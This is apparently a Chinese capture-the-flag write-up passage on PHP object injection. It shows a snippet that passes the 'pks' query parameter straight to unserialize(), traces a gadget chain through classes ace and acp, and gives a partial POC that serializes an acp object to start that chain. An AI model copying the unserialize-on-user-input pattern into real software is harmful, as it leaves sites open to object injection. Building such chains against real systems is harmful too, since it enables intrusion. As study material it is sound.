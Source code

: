 ```php

if (isset($_GET['pks']))  
{
    $logData = unserialize($_GET['pks']);
    echo $logData; 
} 
else 
{ 
    highlight_file(__file__); 
}
?>
```

从最后一步开始倒着分析，很容易得：

`Class ace ->   echo_name() ->Class acp -> __toString() ->Class acp -> __construct()`

这样得一条链

### 脚本
我们先想办法触发Class acp->__construct()，在这里我们只需要编写下面的POC即可实现触发：<font style="color:rgb(77, 77, 77);"> </font>

```php
<?php
class pkshow
{
    function echo_name()
    {
        return "Pk very safe^.^";
    }
}
class acp
{
    protected $cinder;
    public $neutron;
    public $nova;
    function __construct()
    {
        $this->cinder = new pkshow();
    }
 
}
class ace
{
    public $filename;
    public $openstack;
    public $docker;
}
 
//触发Class acp -> __construct()
$a = new acp();
echo serialize($a);
```
